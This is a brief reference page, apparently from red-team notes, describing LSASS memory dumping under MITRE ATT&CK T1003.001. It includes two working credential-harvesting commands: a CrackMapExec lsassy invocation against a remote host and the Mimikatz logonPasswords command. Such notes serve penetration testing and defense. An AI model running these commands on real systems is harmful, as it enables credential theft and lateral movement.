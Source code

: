```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.001
---
```


# LSASS Memory

After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

### Dumping LSASS Memory

```bash
# Dumping LSASS remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M lsassy

# Dumping LSASS with Mimikatz
sekurlsa::logonPasswords
```

### References

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}
